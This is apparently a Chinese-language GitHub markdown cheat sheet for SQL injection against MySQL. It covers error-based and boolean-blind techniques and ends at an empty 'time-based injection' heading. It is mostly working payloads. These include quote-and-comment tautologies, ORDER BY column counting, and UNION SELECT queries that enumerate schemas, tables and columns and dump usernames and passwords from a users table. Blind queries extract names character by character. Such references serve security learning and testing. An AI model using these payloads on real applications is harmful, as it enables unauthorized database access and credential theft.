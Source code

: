 ### 报错注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```
### 布尔注入
```
mid(str,1,3)字符串截取
ORD()转换成ascii码
Length()统计字节长度
version()查看数据库版本
database()查看数据库名
user()查看当前用户

```
1. 判断注入点
2. 获取数据库名称长度
```
and (select length (database())) = '8'
```
3. 获取数据库名称
and (select ord(substring(database(),1,1))) = 97
4.获取表总数
```
select count(table_name) from information_schema.tables where table_schema = database()
```
5. 获取表名长度
```
SELECT LENGTH (TABLE_NAME) from information_schema.tables where table_schema = DATABASE() LIMIT 0,1
```
6. 获取表名
```
SELECT ORD(SUBSTR((select(TABLE_NAME) from information_schema.tables where table_schema = DATABASE() limit 3,1),2,1))
```
获取字段总数
```
SELECT  COUNT(column_name) from information_schema.columns where table_name='users'
```
7. 获取字段长度
```
SELECT length(column_name) from information_schema.columns where table_name='users' LIMIT 0,1
```
7. 获取字段名称
select ord(SUBSTR((SELECT(COLUMN_NAME) from information_schema.columns where table_name='users' LIMIT 0,1),3,1))
8. 获取数据


### 延时注入
